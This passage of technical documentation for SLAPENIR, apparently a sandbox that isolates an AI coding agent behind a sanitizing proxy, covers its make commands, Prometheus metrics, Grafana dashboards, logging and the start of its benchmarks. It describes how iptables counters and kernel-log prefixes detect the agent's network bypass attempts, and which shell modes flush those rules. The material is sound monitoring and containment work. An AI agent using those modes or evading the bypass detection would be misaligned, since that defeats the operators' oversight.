| `./slapenir shell [svc]` | `docker-compose exec svc /bin/sh` | Open shell in container |
| `./slapenir clean` | `docker-compose down -v` + volume removal | Remove everything |

#### 8.2 Status Health Checks

**Ref:** `slapenir:96-155`

```bash
if curl -s http://localhost:3000/health > /dev/null 2>&1; then
    success "Proxy (http://localhost:3000)"
else
    error "Proxy (not responding)"
fi

if docker-compose ps | grep "slapenir-ca" | grep -q "Up"; then
    success "Step CA (https://localhost:9000)"
else
    error "Step CA (not running)"
fi
```

The `status` command checks 5 services: proxy (HTTP health check on port 3000), Step CA (container running), agent (container running), Prometheus (HTTP health on port 9090), and Grafana (HTTP health on port 3001).

---

### 9. Make Commands Reference

#### 9.1 Complete Command Table

| Command | Privilege | Network | Purpose |
| --- | --- | --- | --- |
| `make up` | Host | — | Start services |
| `make up-logs` | Host | — | Start with monitoring |
| `make down` | Host | — | Stop services |
| `make restart` | Host | — | Restart services |
| `make status` | Host | — | Show service status |
| `make logs` | Host | — | Follow logs |
| `make shell` | agent user | LOCKED | Interactive agent shell |
| `make shell-unrestricted` | root → agent | OPEN | Shell with internet |
| `make shell-raw` | root → agent | OPEN | Shell without .bashrc |
| `make copy-in` | root (chown) | — | Copy repo into container |
| `make copy-out` | agent | — | Copy repo out of container |
| `make copy-out-safe` | Host + agent | — | Backup + copy-out |
| `make copy-cache` | root (chown) | — | Seed build caches |
| `make index` | agent | — | Index repo for Code-Graph-RAG |
| `make session-reset` | agent | — | Clear workspace + MCP data |
| `make verify` | Host | — | Pre-flight security checks |
| `make test` | Host | — | Run proxy test suite |
| `make rebuild` | Host | — | Clean rebuild from scratch |
| `make clean` | Host | — | Remove all containers + volumes |

---

### Key Takeaways

1. **The 5-phase workflow enforces security at every boundary.** Preparation (host) → Setup (container initialization + verification) → AI work (sandboxed) → Extraction (dual-sided scanning) → Cleanup (state reset). Each phase has explicit verification gates that must pass before proceeding.

2. **`make verify` is the critical pre-flight gate.** Two host-side scripts verify ~55 checks across credential isolation, network configuration, proxy health, and Docker network segmentation. A failed check prevents the session from proceeding — forcing the operator to fix the misconfiguration before AI work begins.

3. **Code extraction uses a safe-by-default pipeline.** `copy-out-safe` creates a host-side backup before overwriting. Both in-container and host-side secret scanning catch credential leaks. The `gitleaks`/`trufflehog` scan on the host provides defense-in-depth against the agent injecting secrets into source files.

4. **Session reset prevents cross-ticket state leakage.** Clearing workspace, MCP memory (SQLite), and MCP knowledge (LanceDB) ensures each ticket starts with a clean slate. Without this, the AI agent could carry context (including potentially sensitive information) from one ticket to the next.

5. **Three shell modes provide graduated access.** `make shell` (LOCKED, for AI work), `make shell-unrestricted` (OPEN, for debugging), and `make shell-raw` (OPEN without .bashrc, for low-level debugging). The unrestricted modes flush iptables rules, removing all network isolation — they are intended for human operators, never for AI agent use.

---

# Section 10: Observability & Audit

### Overview

This document provides a comprehensive technical analysis of the SLAPENIR observability stack — the collection, storage, visualization, and alerting infrastructure that provides real-time visibility into proxy operations, agent network behavior, credential sanitization activity, and mTLS health. It covers the Prometheus scrape topology with four instrumented targets, the 15 proxy-side metric definitions across five categories (HTTP, secrets, mTLS, certificates, system), the agent-side iptables metrics exporter with its eight metric families, the Grafana provisioning architecture with two pre-built dashboards (System Overview and Network Isolation), the proxy structured logging via `tracing` + `tracing-subscriber`, and the agent structured JSON logging with rotating file handlers and three-tier fallback.

---

### 1. Observability Architecture

#### 1.1 Three-Pillar Model

SLAPENIR implements three pillars of observability:

| Pillar | Proxy Implementation | Agent Implementation | Storage |
| --- | --- | --- | --- |
| Metrics | `prometheus` crate (Rust) | `prometheus_client` (Python) | Prometheus TSDB |
| Logging | `tracing` + `tracing-subscriber` | `logging_config.py` (JSON + text) | File rotation + stdout |
| Tracing | Request-level spans via `tracing` | Process-level event logs | Structured log output |

#### 1.2 Prometheus Scrape Topology

```mermaid
flowchart TD
    PROM["Prometheus<br/>:9090<br/>Scrape interval: 10-30s"] --> PX["slapenir-proxy<br/>:3000/metrics<br/>15 Rust metrics"]
    PROM --> AG["slapenir-agent<br/>:8000/metrics<br/>8 Python metrics"]
    PROM --> CA["step-ca<br/>:9000/metrics<br/>CA operational metrics"]
    PROM --> SELF["prometheus<br/>:9090/metrics<br/>Self-monitoring"]

    PX --> | HTTP requests<br/>Latency histograms<br/>Secret counts<br/>mTLS handshakes<br/>Certificate expiry | PROM
    AG --> | iptables counters<br/>Bypass attempts<br/>Connection states<br/>Isolation status | PROM
    CA --> | Certificate issuance<br/>Provisioner activity | PROM

    PROM --> GRAF["Grafana<br/>:3001<br/>Auto-provisioned datasources"]
    GRAF --> DASH1["SLAPENIR System Overview<br/>8 panels"]
    GRAF --> DASH2["Network Isolation & Security<br/>13 panels"]

    style PROM fill:#e74c3c,color:#fff
    style PX fill:#3498db,color:#fff
    style AG fill:#27ae60,color:#fff
    style GRAF fill:#f39c12,color:#fff
    style CA fill:#9b59b6,color:#fff
```

#### 1.3 Scrape Configuration

**Ref:** `monitoring/prometheus.yml:4-9`

```yaml
global:
  scrape_interval: 15s
  evaluation_interval: 15s
  external_labels:
    cluster: 'slapenir-local'
    environment: 'development'
```

| Parameter | Value | Rationale |
| --- | --- | --- |
| `scrape_interval` | 15s (global) | Default cadence for all targets |
| Proxy `scrape_interval` | 10s | Security-critical; faster detection |
| Agent `scrape_interval` | 10s | Network isolation verification every 10s |
| CA `scrape_interval` | 30s | Certificate operations are infrequent |
| `evaluation_interval` | 15s | Alert rule evaluation cadence |

#### 1.4 Scrape Targets

**Ref:** `monitoring/prometheus.yml:23-68`

| Job Name | Target | Metrics Path | Interval | Labels |
| --- | --- | --- | --- | --- |
| `prometheus` | `localhost:9090` | `/metrics` | 15s | `service: prometheus, phase: 6` |
| `slapenir-proxy` | `proxy:3000` | `/metrics` | 10s | `service: proxy, phase: 2, component: gateway` |
| `slapenir-agent` | `agent:8000` | `/metrics` | 10s | `service: agent, phase: 3, component: executor` |
| `step-ca` | `ca:9000` | `/metrics` | 30s | `service: step-ca, phase: 1, component: pki` |

The `phase` label maps to the architecture phases defined in WP-02, enabling dashboard filtering by architectural layer.

---

### 2. Proxy Metric Definitions

#### 2.1 Metric Inventory

The proxy exposes 15 Prometheus metrics across five categories through the `metrics.rs` module:

**Ref:** `proxy/src/metrics.rs:1-115`

#### HTTP Request Metrics

| Metric | Type | Labels | Buckets | Purpose |
| --- | --- | --- | --- | --- |
| `slapenir_proxy_http_requests_total` | `IntCounterVec` | `method`, `status`, `endpoint` | — | Total request count by method/status/endpoint |
| `slapenir_proxy_http_request_duration_seconds` | `HistogramVec` | `method`, `endpoint` | 1ms-5s (11 buckets) | Request latency distribution |
| `slapenir_proxy_http_request_size_bytes` | `Histogram` | — | 100B-10MB (6 buckets) | Request body size distribution |
| `slapenir_proxy_http_response_size_bytes` | `Histogram` | — | 100B-10MB (6 buckets) | Response body size distribution |

**Ref:** `proxy/src/metrics.rs:14-50`

```rust
pub static ref HTTP_REQUEST_DURATION_SECONDS: HistogramVec = HistogramVec::new(
    HistogramOpts::new(
        "http_request_duration_seconds",
        "HTTP request latencies in seconds"
    )
    .namespace("slapenir")
    .subsystem("proxy")
    .buckets(vec![0.001, 0.005, 0.01, 0.025, 0.05, 0.1, 0.25, 0.5, 1.0, 2.5, 5.0]),
    &["method", "endpoint"]
).expect("metric can be created");
```

The histogram bucket boundaries are selected to capture the latency distribution across three regimes: sub-millisecond (cryptographic operations), millisecond (sanitization), and second-scale (upstream API calls). This enables `histogram_quantile()` queries for p50, p95, and p99 calculations.

#### Secret Sanitization Metrics

| Metric | Type | Labels | Purpose |
| --- | --- | --- | --- |
| `secrets_sanitized_total` | `IntCounter` | — | Total secrets sanitized across all requests |
| `secrets_by_type_total` | `IntCounterVec` | `secret_type` | Secrets sanitized by credential type |

**Ref:** `proxy/src/metrics.rs:53-63`

The `secret_type` label discriminates between credential categories (e.g., `api_key`, `aws_access_key`, `github_token`). This enables per-credential-type sanitization rate monitoring.

#### mTLS Metrics

| Metric | Type | Labels | Buckets | Purpose |
| --- | --- | --- | --- | --- |
| `mtls_connections_total` | `IntCounter` | — | — | Total mTLS connections established |
| `mtls_handshake_duration_seconds` | `Histogram` | — | 10ms-5s (8 buckets) | TLS handshake latency |
| `mtls_errors_total` | `IntCounterVec` | `error_type` | — | mTLS errors by category |

**Ref:** `proxy/src/metrics.rs:66-86`

The `error_type` label captures failure modes: `certificate_expired`, `certificate_invalid`, `handshake_failed`, `client_not_trusted`. This enables alerting on certificate rotation failures or unauthorized connection attempts.

#### Certificate Metrics

| Metric | Type | Labels | Purpose |
| --- | --- | --- | --- |
| `slapenir_proxy_cert_expiry_timestamp` | `GaugeVec` | `cert_name` | Certificate expiration as Unix timestamp |

**Ref:** `proxy/src/metrics.rs:89-94`

The expiry timestamp metric enables alerting on certificate expiration. A PromQL expression like `(slapenir_proxy_cert_expiry_timestamp - time()) / 86400 < 7` triggers a warning when any certificate is within 7 days of expiry.

#### System Metrics

| Metric | Type | Purpose |
| --- | --- | --- |
| `proxy_info` | `IntGauge` | Build/version metadata (always 1) |
| `proxy_uptime_seconds` | `IntGauge` | Proxy uptime in seconds |
| `active_connections` | `IntGauge` | Currently open TCP connections |

**Ref:** `proxy/src/metrics.rs:97-114`

The `proxy_info` gauge follows the Prometheus convention of encoding metadata as labels on a constant-1 gauge. Future versions will add `version` and `build_date` labels.

#### 2.2 Recording Functions

The metrics module provides typed recording functions that encapsulate label assignment:

**Ref:** `proxy/src/metrics.rs:157-199`

```rust
pub fn record_http_request(method: &str, status: u16, endpoint: &str, duration_secs: f64) {
    HTTP_REQUESTS_TOTAL
        .with_label_values(&[method, &status.to_string(), endpoint])
        .inc();
    HTTP_REQUEST_DURATION_SECONDS
        .with_label_values(&[method, endpoint])
        .observe(duration_secs);
}

pub fn record_secret_sanitized(secret_type: &str) {
    SECRETS_SANITIZED_TOTAL.inc();
    SECRETS_BY_TYPE.with_label_values(&[secret_type]).inc();
}
```

| Function | Metrics Updated | Call Site |
| --- | --- | --- |
| `record_http_request` | `http_requests_total`, `http_request_duration_seconds` | Request completion handler |
| `record_secret_sanitized` | `secrets_sanitized_total`, `secrets_by_type_total` | Sanitizer after each secret replacement |
| `record_mtls_connection` | `mtls_connections_total`, `mtls_handshake_duration_seconds` | TLS acceptor after successful handshake |
| `record_mtls_error` | `mtls_errors_total` | TLS acceptor on handshake failure |
| `update_cert_expiry` | `cert_expiry_timestamp` | Certificate loading/rotation |
| `inc_active_connections` | `active_connections` | New connection accepted |
| `dec_active_connections` | `active_connections` | Connection closed |

#### 2.3 Metrics Endpoint

The `/metrics` endpoint is served by the proxy's Axum HTTP server alongside `/health` and the proxy routes:

**Ref:** `proxy/src/main.rs:380-388`

```rust
async fn metrics_handler() -> impl IntoResponse {
    match metrics::gather_metrics() {
        Ok(body) => (
            StatusCode::OK,
            [(header::CONTENT_TYPE, "text/plain; version=0.0.4; charset=utf-8")],
            body,
        ),
        Err(e) => {
            tracing::error!("Failed to gather metrics: {}", e);
            (StatusCode::INTERNAL_SERVER_ERROR, [(header::CONTENT_TYPE, "text/plain")], format!("Error: {}", e))
        }
    }
}
```

The `gather_metrics()` function updates the uptime gauge before encoding all registered metric families into the Prometheus text exposition format.

---

### 3. Agent Metrics Exporter

#### 3.1 Architecture

The agent metrics exporter is a Python process running as an s6-rc.d longrun service. It polls iptables counters every 10 seconds and exposes them via a Prometheus HTTP endpoint:

**Ref:** `agent/scripts/metrics_exporter.py:1-217`

```python
def main() -> None:
    METRICS_PORT = int(os.environ.get("METRICS_PORT", 8000))
    logger.info(f"Starting metrics exporter on port {METRICS_PORT}")
    start_http_server(METRICS_PORT)

    while True:
        parse_iptables_counters()
        check_isolation_enabled()
        count_connections()
        check_kernel_log_for_bypass()
        time.sleep(10)
```

#### 3.2 Metric Families

| Metric | Type | Labels | Source | Purpose |
| --- | --- | --- | --- | --- |
| `agent_bypass_attempts_total` | `Counter` | `type` | iptables DROP + dmesg | Internet bypass attempts blocked |
| `agent_dns_bypass_attempts_total` | `Counter` | `protocol` | iptables DROP (dpt:53) + dmesg | DNS bypass attempts blocked |
| `agent_traffic_enforce_packets` | `Gauge` | `chain`, `rule` | `iptables -L -n -v -x` | Packet counters per rule |
| `agent_traffic_enforce_bytes` | `Gauge` | `chain`, `rule` | `iptables -L -n -v -x` | Byte counters per rule |
| `agent_network_isolation_status` | `Gauge` | — | Chain existence check | 1=enforced, 0=disabled |
| `agent_allowed_destinations` | `Gauge` | — | ACCEPT rule count | Number of allowed outbound rules |
| `agent_active_connections` | `Gauge` | `state` | `/proc/net/tcp` | TCP connections by state |
| `agent_last_bypass_log_timestamp` | `Gauge` | — | dmesg timestamps | Last bypass attempt time |

**Ref:** `agent/scripts/metrics_exporter.py:22-63`

#### 3.3 iptables Counter Parsing

The exporter parses `iptables -L TRAFFIC_ENFORCE -n -v -x` output to extract packet and byte counters per rule:

**Ref:** `agent/scripts/metrics_exporter.py:66-129`

```python
def parse_iptables_counters() -> None:
    result = subprocess.run(
        ["iptables", "-L", "TRAFFIC_ENFORCE", "-n", "-v", "-x"],
        capture_output=True, text=True, timeout=5,
    )

    lines = result.stdout.strip().split("\n")
    rule_pattern = re.compile(r"^\s*(\d+)\s+(\d+)\s+(ACCEPT | DROP | LOG)\s+")

    for line in lines[2:]:
        match = rule_pattern.match(line)
        if match:
            packets = int(match.group(1))
            bytes_val = int(match.group(2))
            action = match.group(3)
            ...
```

Rules are classified by heuristic pattern matching on the iptables output line:

| Rule Name | Detection Pattern | Meaning |
| --- | --- | --- |
| `proxy` | Contains `proxy` or `172.30.0.2` | Traffic to proxy (allowed) |
| `dns_block` | `DROP` action + `dpt:53` | DNS bypass attempt |
| `bypass_log` | `LOG` action + `BYPASS` in line | Bypass attempt logged |
| `dns_log` | `LOG` action + `DNS` in line | DNS bypass logged |
| `default_drop` | Last `DROP` rule | Default deny catch-all |
| `rule_N` | Fallback | Unclassified rule |

#### 3.4 TCP Connection State Monitoring

The exporter reads `/proc/net/tcp` to count connections by state:

**Ref:** `agent/scripts/metrics_exporter.py:148-182`

```python
def count_connections() -> None:
    with open("/proc/net/tcp", "r") as f:
        lines = f.readlines()[1:]

    states = {
        "01": "ESTABLISHED", "02": "SYN_SENT", "03": "SYN_RECV",
        "04": "FIN_WAIT1", "05": "FIN_WAIT2", "06": "TIME_WAIT",
        "07": "CLOSE", "08": "CLOSE_WAIT", "09": "LAST_ACK",
        "0A": "LISTEN", "0B": "CLOSING",
    }
```

This provides visibility into the agent's TCP connection patterns — useful for detecting abnormal connection accumulation (potential leak) or unexpected outbound connection attempts.

#### 3.5 Kernel Log Bypass Detection

**Ref:** `agent/scripts/metrics_exporter.py:185-199`

```python
def check_kernel_log_for_bypass() -> None:
    result = subprocess.run(["dmesg"], capture_output=True, text=True, timeout=5)

    bypass_lines = [l for l in result.stdout.split("\n") if "BYPASS-ATTEMPT" in l]
    if bypass_lines:
        bypass_attempts_total.labels(type="internet").inc(len(bypass_lines))

    dns_lines = [l for l in result.stdout.split("\n") if "DNS-BLOCK" in l]
    if dns_lines:
        dns_bypass_attempts_total.labels(protocol="udp").inc(len(dns_lines))
```

The iptables LOG rules (WP-06 Section 3) prefix log entries with `BYPASS-ATTEMPT` and `DNS-BLOCK`. The exporter scans `dmesg` output for these prefixes to count bypass attempts recorded in the kernel ring buffer.

---

### 4. Grafana Dashboard Architecture

#### 4.1 Provisioning Configuration

Grafana is configured for automatic provisioning through two configuration files:

**Ref:** `monitoring/grafana/datasources/prometheus.yml:1-17`

```yaml
apiVersion: 1

datasources:

  - name: Prometheus

    type: prometheus
    access: proxy
    url: http://prometheus:9090
    isDefault: true
    editable: true
    jsonData:
      timeInterval: "15s"
      queryTimeout: "60s"
      httpMethod: "POST"
    version: 1
```

**Ref:** `monitoring/grafana/dashboards/dashboards.yml:1-16`

```yaml
apiVersion: 1

providers:

  - name: 'SLAPENIR Dashboards'

    orgId: 1
    folder: 'SLAPENIR'
    type: file
    disableDeletion: false
    updateIntervalSeconds: 10
    allowUiUpdates: true
    options:
      path: /etc/grafana/provisioning/dashboards
      foldersFromFilesStructure: true
```

| Configuration | Value | Purpose |
| --- | --- | --- |
| Datasource URL | `http://prometheus:9090` | Docker network DNS resolution |
| `timeInterval` | 15s | Minimum scrape interval for query alignment |
| `queryTimeout` | 60s | Maximum PromQL evaluation time |
| `httpMethod` | POST | More efficient for complex queries |
| Dashboard scan interval | 10s | Auto-detect new dashboard JSON files |

#### 4.2 Dashboard 1: SLAPENIR System Overview

**Ref:** `monitoring/grafana/dashboards/slapenir-overview.json:1-189`

The System Overview dashboard provides an 8-panel view of overall system health:

| Panel | Type | PromQL Expression | Refresh |
| --- | --- | --- | --- |
| System Health | `stat` | `up{job=~"slapenir-.*"}` | 30s |
| Request Rate | `timeseries` | `rate(slapenir_proxy_http_requests_total[5m])` | 30s |
| Response Time (p95) | `timeseries` | `histogram_quantile(0.95, ...)` | 30s |
| Error Rate | `timeseries` | `rate(...{status=~"5.."}[5m])` | 30s |
| Secrets Sanitized | `stat` | `sum(secrets_sanitized_total)` | 30s |
| mTLS Connections | `stat` | `sum(mtls_connections_total)` | 30s |
| Certificate Expiry | `gauge` | `(cert_expiry_timestamp - time()) / 86400` | 30s |
| Active Agents | `stat` | `count(up{job="slapenir-agent"} == 1)` | 30s |

#### Certificate Expiry Thresholds

The certificate expiry gauge uses a three-tier color scheme:

| Threshold | Color | Meaning |
| --- | --- | --- |
| < 7 days | Red | Immediate rotation required |
| 7-30 days | Yellow | Rotation should be scheduled |
| > 30 days | Green | Certificate valid |

**Ref:** `monitoring/grafana/dashboards/slapenir-overview.json:140-168`

#### 4.3 Dashboard 2: Network Isolation & Security

**Ref:** `monitoring/grafana/dashboards/network-isolation.json:1-316`

The Network Isolation dashboard provides a 13-panel security monitoring view:

| Panel | Type | Metric | Purpose |
| --- | --- | --- | --- |
| Network Isolation Status | `stat` | `agent_network_isolation_status` | Firewall enforcement state (1/0) |
| Internet Bypass Attempts | `stat` | `agent_bypass_attempts_total{type="internet"}` | Blocked internet access attempts |
| DNS Bypass Attempts | `stat` | `agent_dns_bypass_attempts_total` | Blocked DNS requests |
| Allowed Destinations | `stat` | `agent_allowed_destinations` | ACCEPT rule count |
| Traffic by Rule (packets) | `timeseries` | `rate(agent_traffic_enforce_packets[1m])` | Packet rate per firewall rule |
| Traffic by Rule (bytes) | `timeseries` | `rate(agent_traffic_enforce_bytes[1m])` | Byte rate per firewall rule |
| Active Connections by State | `timeseries` | `agent_active_connections` | TCP state distribution |
| Proxy Traffic | `timeseries` | `rate(slapenir_proxy_http_requests_total[1m])` | Outbound request rate |
| Security Summary | `table` | Multiple metrics | Combined security overview |
| Default Drop Counter | `stat` | `traffic_enforce_packets{rule="bypass_log"}` | Bypass LOG rule packet count |
| Proxy Response Time | `timeseries` | `histogram_quantile(0.95, ...)` | p95 and p50 proxy latency |
| Traffic to Proxy | `stat` | `traffic_enforce_packets{rule="rule_16"}` | Packets routed to proxy |
| Network Isolation Guarantee | `text` | Markdown explanation | Human-readable security proof |

#### Security Verification Proof Panel

**Ref:** `monitoring/grafana/dashboards/network-isolation.json:306-313`

The final panel is a Markdown text panel that documents the security guarantee:

```text

### Network Isolation Verification

This dashboard proves that:

1. All outbound traffic goes through the proxy
2. No direct internet access - default_drop counter should be 0
3. No DNS bypass - dns_block counter should be 0
4. Firewall is active - Network Isolation Status should be 1

What this means:

- The agent CANNOT send requests directly to the internet
- All HTTP/HTTPS requests must go through the proxy
- The proxy sanitizes secrets before forwarding requests
- No inbound connections from the internet are possible

```

#### 4.4 Grafana Scrape Topology Diagram

```mermaid
sequenceDiagram
    participant PROM as Prometheus :9090
    participant PX as Proxy :3000
    participant AG as Agent :8000
    participant CA as Step-CA :9000
    participant GRAF as Grafana :3001

    loop Every 10s
        PROM->>PX: GET /metrics
        PX-->>PROM: 15 metric families (text/plain)
        PROM->>AG: GET /metrics
        AG-->>PROM: 8 metric families (text/plain)
    end

    loop Every 30s
        PROM->>CA: GET /metrics
        CA-->>PROM: CA operational metrics
    end

    loop Every 15s
        PROM->>PROM: GET /metrics (self)
    end

    loop Every dashboard refresh (10-30s)
        GRAF->>PROM: POST /api/v1/query_range (PromQL)
        PROM-->>GRAF: JSON timeseries data
        GRAF->>GRAF: Render panels
    end
```

---

### 5. Proxy Structured Logging

#### 5.1 Tracing Architecture

The proxy uses Rust's `tracing` crate with `tracing-subscriber` for structured, filterable logging:

**Ref:** `proxy/Cargo.toml:57-59`

```toml
tracing = "0.1"
tracing-subscriber = { version = "0.3", features = ["env-filter"] }
```

#### 5.2 Subscriber Initialization

**Ref:** `proxy/src/main.rs:30-38`

```rust
tracing_subscriber::registry()
    .with(
        tracing_subscriber::EnvFilter::try_from_default_env()
            .unwrap_or_else( | _ | EnvFilter::new("info"))
    )
    .with(tracing_subscriber::fmt::layer())
    .init();
```

The subscriber is configured with environment-based filter control via `RUST_LOG`. The default level is `info`, which captures operational messages while suppressing debug-level noise. Setting `RUST_LOG=slapenir_proxy=debug` enables verbose request tracing.

#### 5.3 Log Levels by Component

| Component | `info` | `debug` | `warn` | `error` |
| --- | --- | --- | --- | --- |
| Proxy core | Request forwarding, bypass decisions | Header removal, body processing | Domain restriction bypass | Sanitization verification failure |
| Sanitizer | Secret counts | Pattern match details | — | Paranoid verify failure |
| mTLS | Configuration loaded | — | Certificate not available yet | Handshake errors |
| Config | Strategy count, config source | — | Missing config, fallback | Validation failure |
| Auto-detect | Database connection | Query details | — | Scan failure |
| Metrics | Initialization success | — | Initialization failure | Gather failure |

#### 5.4 Key Log Events

| Event | Level | Component | Purpose |
| --- | --- | --- | --- |
| `mTLS enabled - mutual authentication active` | info | main | Confirms mTLS enforcement |
| `ALLOW_BUILD mode enabled - proxy bypassing domain restrictions` | warn | main | Flags reduced security posture |
| `Secret sanitization failed verification!` | error | proxy/sanitizer | Critical: paranoid verify caught a bug |
| `Loaded X strategies from config` | info | config | Strategy count audit |
| `NO CREDENTIALS FOUND` | error | main | Configuration error requiring action |
| `Forwarding request to: {url}` | info | proxy | Request audit trail |
| `Proxy request completed successfully` | info | proxy | Request completion audit |

---

### 6. Agent Structured Logging

#### 6.1 Dual-Handler Architecture

The agent uses a Python logging configuration that writes to both file (JSON) and stdout (text):

**Ref:** `agent/scripts/logging_config.py:129-169`

```python
def _setup_logging(self, service_name: str, log_dir: str, log_level: str) -> None:
    logger = logging.getLogger()
    logger.setLevel(getattr(logging, log_level.upper(), logging.INFO))
    logger.handlers.clear()

    file_logging_enabled = False
    if self.enabled:
        try:
            log_dir_path = Path(log_dir)
            if self._ensure_log_directory(log_dir_path):
                if os.access(log_dir_path, os.W_OK):
                    file_handler = self._create_file_handler(
                        log_dir_path, service_name
                    )
                    logger.addHandler(file_handler)
                    file_logging_enabled = True
        except (OSError, PermissionError) as e:
            print(f"WARNING: File logging failed: {e}", file=sys.stderr)

    stdout_handler = logging.StreamHandler(sys.stdout)
    stdout_handler.setFormatter(
        logging.Formatter(
            "[%(asctime)s] [%(levelname)s] %(message)s", datefmt="%Y-%m-%d %H:%M:%S"
        )
    )
    logger.addHandler(stdout_handler)
```

#### 6.2 Three-Tier Fallback

| Tier | Handler | Format | Condition |
| --- | --- | --- | --- |
| 1 (primary) | `RotatingFileHandler` | JSON | `LOG_ENABLED=true` + writable directory |
| 2 (secondary) | `StreamHandler(stdout)` | Text | Always active |
| 3 (tertiary) | `print(sys.stderr)` | Plain text | Fallback if logging itself fails |

#### 6.3 JSON Log Format

**Ref:** `agent/scripts/logging_config.py:192-214`

```python
class JSONFormatter(logging.Formatter):
    def format(self, record: logging.LogRecord) -> str:
        log_entry = {
            "timestamp": datetime.fromtimestamp(record.created).isoformat(),
            "level": record.levelname,
            "service": record.name,
            "message": record.getMessage(),
        }

        if record.exc_info:
            log_entry["exception"] = self.formatException(record.exc_info)

        return json.dumps(log_entry)
```

Output example:

```json
{"timestamp":"2026-04-10T14:30:45.123456","level":"INFO","service":"agent-svc","message":"Agent started"}
```

#### 6.4 Log Rotation Configuration

| Parameter | Default | Environment Override | Purpose |
| --- | --- | --- | --- |
| `max_bytes` | 10 MB | `LOG_MAX_BYTES` | Maximum log file size before rotation |
| `backup_count` | 5 | `LOG_BACKUP_COUNT` | Number of rotated backup files to keep |
| `log_dir` | `/var/log/slapenir` | `LOG_DIR` | Directory for log files |
| `log_level` | `INFO` | `LOG_LEVEL` | Minimum log level |

With 5 backups at 10 MB each, the maximum log storage is 60 MB per service. This prevents disk exhaustion in long-running containers.

---

### 7. Audit Event Taxonomy

#### 7.1 Security-Relevant Events

The observability stack captures the following security-relevant event categories:

| Category | Source | Metric/Log | Alert Condition |
| --- | --- | --- | --- |
| Bypass attempt | Agent iptables | `agent_bypass_attempts_total` | > 0 |
| DNS bypass | Agent iptables | `agent_dns_bypass_attempts_total` | > 0 |
| Firewall disabled | Agent exporter | `agent_network_isolation_status` | == 0 |
| Secret sanitized | Proxy | `secrets_sanitized_total` | Rate change |
| mTLS handshake failure | Proxy | `mtls_errors_total` | > 0 |
| Certificate expiring | Proxy | `cert_expiry_timestamp` | < 7 days |
| High error rate | Proxy | `http_requests_total{status=~"5.."}` | > 1% |
| Sanitization verification fail | Proxy | tracing error log | Any occurrence |
| ALLOW_BUILD enabled | Proxy | tracing warn log | Any occurrence |
| No credentials | Proxy | tracing error log | Any occurrence |

#### 7.2 Operational Events

| Category | Source | Metric/Log | Purpose |
| --- | --- | --- | --- |
| Request forwarded | Proxy | `http_requests_total` | Traffic volume audit |
| Request latency | Proxy | `http_request_duration_seconds` | Performance tracking |
| mTLS connection established | Proxy | `mtls_connections_total` | Connection audit |
| Strategy loaded | Proxy | tracing info log | Configuration audit |
| Auto-detection query | Proxy | tracing debug log | Credential source audit |

---

### Key Takeaways

1. **The observability stack provides continuous security verification.** Two dedicated dashboards (System Overview and Network Isolation) surface security-critical metrics in real time: firewall enforcement status, bypass attempt counters, secret sanitization rates, and certificate expiry. Any deviation from expected values is immediately visible without querying logs.

2. **Metrics are organized by architectural component.** The proxy exposes 15 metrics across five categories (HTTP, secrets, mTLS, certificates, system), while the agent exposes 8 metrics focused on network isolation. Prometheus labels (`service`, `phase`, `component`) enable filtering by architectural layer. The `phase` label maps directly to the five functional planes defined in WP-02.

3. **The agent metrics exporter validates network isolation in near-real-time.** By polling iptables counters every 10 seconds and cross-referencing with kernel log entries, the exporter detects bypass attempts within one collection cycle. The `agent_network_isolation_status` gauge provides a single boolean indicator of firewall health.

4. **Structured logging enables automated audit analysis.** The proxy uses Rust's `tracing` with environment-based filtering (`RUST_LOG`), while the agent uses JSON-formatted log output with rotating file handlers. Both emit structured events that can be ingested by SIEM systems for long-term audit storage and compliance reporting.

5. **Grafana is fully auto-provisioned for zero-touch deployment.** The datasource (Prometheus) and two dashboards are loaded from configuration files at startup. The `make up-logs` command starts Prometheus and Grafana alongside the core services, providing immediate observability without manual dashboard creation.

---

# Section 11: Performance & Scalability

### Overview

This document provides a comprehensive technical analysis of the SLAPENIR performance characteristics, benchmark methodology, load testing infrastructure, and scalability strategy. It covers the Criterion benchmark suite with six benchmark groups measuring Aho-Corasick sanitization, credential injection, SecretMap construction, binary sanitization, no-match path optimization, and multi-secret scaling; the k6 load testing framework with four test scenarios (API load, proxy sanitization, stress, and soak); the performance target matrix with latency, throughput, and resource utilization thresholds; the mutation testing configuration using `cargo-mutants` with nine mutation operators; capacity planning with vertical and horizontal scaling strategies; and auto-scaling rules for production deployment.

---

### 1. Benchmark Architecture

#### 1.1 Criterion Configuration

The proxy uses Criterion.rs for statistical benchmarking with rigorous confidence intervals:

**Ref:** `proxy/Cargo.toml:76-86`

```toml
[dev-dependencies]
criterion = { version = "0.8", features = ["html_reports"] }

[[bench]]
name = "performance"
harness = false
```

**Ref:** `proxy/benches/performance.rs:144-158`

```rust
criterion_group! {
    name = benches;
    config = Criterion::default()
        .sample_size(100)
        .measurement_time(std::time::Duration::from_secs(5));
    targets =
        benchmark_sanitization,
        benchmark_injection,
        benchmark_secret_map_creation,
        benchmark_byte_sanitization,
        benchmark_no_match_path,
        benchmark_multiple_secrets,
}
```

| Parameter | Value | Rationale |
| --- | --- | --- |
| `sample_size` | 100 | 100 iterations per benchmark for statistical confidence |
| `measurement_time` | 5 seconds | Sufficient warmup to stabilize CPU caches and branch prediction |
| HTML reports | Enabled | Visual regression detection via browser |
| Benchmark harness | Custom (`harness = false`) | Required for Criterion's main function |

#### 1.2 Benchmark Groups

The performance benchmark suite defines six groups, each targeting a distinct hot path in the sanitization pipeline:

```mermaid
flowchart LR
    subgraph "Criterion Benchmark Suite"
        SAN["sanitization<br/>3 sizes (small/medium/large)"]
        INJ["injection<br/>3 sizes (small/medium/large)"]
        MAP["secret_map_creation<br/>5 sizes (1-500 secrets)"]
        BIN["byte_sanitization<br/>3 sizes (1KB/100KB/1MB)"]
        NOMATCH["no_match_path<br/>2 ops (sanitize/inject)"]
        MULTI["multiple_secrets<br/>5 counts (1-50 secrets)"]
    end

    SAN --> | Aho-Corasick<br/>text scan + replace | OP1["O(N) linear scan"]
    INJ --> | Aho-Corasick<br/>dummy → real | OP1
    MAP --> | Automaton build<br/>N patterns | OP2["O(M) construction"]
    BIN --> | Binary-safe<br/>byte scan | OP3["O(N) byte scan"]
    NOMATCH --> | Fast path<br/>no matches | OP4["O(N) early exit"]
    MULTI --> | Scaling<br/>secret count | OP5["O(N*M) worst case"]

    style SAN fill:#3498db,color:#fff
    style INJ fill:#27ae60,color:#fff
    style MAP fill:#e67e22,color:#fff
    style BIN fill:#9b59b6,color:#fff
    style NOMATCH fill:#95a5a6,color:#fff
    style MULTI fill:#e74c3c,color:#fff
```

#### 1.3 Sanitization Benchmarks

